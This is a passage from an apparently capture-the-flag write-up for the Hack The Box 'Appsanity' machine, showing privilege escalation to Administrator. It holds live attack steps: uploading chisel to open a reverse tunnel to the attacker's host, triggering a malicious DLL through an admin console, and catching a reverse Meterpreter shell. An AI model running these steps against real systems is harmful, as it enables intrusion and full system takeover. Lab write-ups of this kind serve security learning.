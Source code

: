~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
*Evil-WinRM* PS C:\Users\devdoc\Desktop> upload chisel.exe
                                        
Info: Uploading /home/kali/HTB/Appsanity/files/chisel.exe to C:\Users\devdoc\Desktop\chisel.exe
                                        
Data: 12008104 bytes of 12008104 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\devdoc\Desktop> ./chisel.exe client 10.10.14.71:6666 R:100:127.0.0.1:100
chisel.exe : 2023/11/04 07:39:16 client: Connecting to ws://10.10.14.71:6666
    + CategoryInfo          : NotSpecified: (2023/11/04 07:3...0.10.14.71:6666:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
2023/11/04 07:39:18 client: Connected (Latency 293.0101ms)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Now connect to the port using **netcat** which opens the *Report Management admin console* that's running on port 100.
Trigger our payload using *upload* command.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/Appsanity]
└─$ nc 127.0.0.1 100
Reports Management administrative console. Type "help" to view available commands.
upload externalupload.dll
Attempting to upload to external source.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


It works and gets us an *admin* session

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
msf6 exploit(multi/handler) > 
[*] Started HTTPS reverse handler on https://10.10.14.71:1234
[!] https://10.10.14.71:1234 handling request from 10.129.134.38; (UUID: jmuiiwgn) Without a database connected that payload UUID tracking will not work!
[*] https://10.10.14.71:1234 handling request from 10.129.134.38; (UUID: jmuiiwgn) Staging x64 payload (201820 bytes) ...
[!] https://10.10.14.71:1234 handling request from 10.129.134.38; (UUID: jmuiiwgn) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (10.10.14.71:1234 -> 10.129.134.38:62087) at 2023-11-04 10:48:50 -0400
sessions

Active sessions
===============

  Id  Name  Type                     Information                          Connection
  --  ----  ----                     -----------                          ----------
  1         meterpreter x64/windows  APPSANITY\Administrator @ APPSANITY  10.10.14.71:1234 -> 10.129.134.38:62087 (10.129.134.38)

msf6 exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

meterpreter > whoami
[-] Unknown command: whoami
meterpreter > getuid
Server username: APPSANITY\Administrator
meterpreter > cd C:/Users/Administrator
meterpreter > cd Desktop
meterpreter > dir
Listing: C:\Users\Administrator\Desktop
=======================================

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~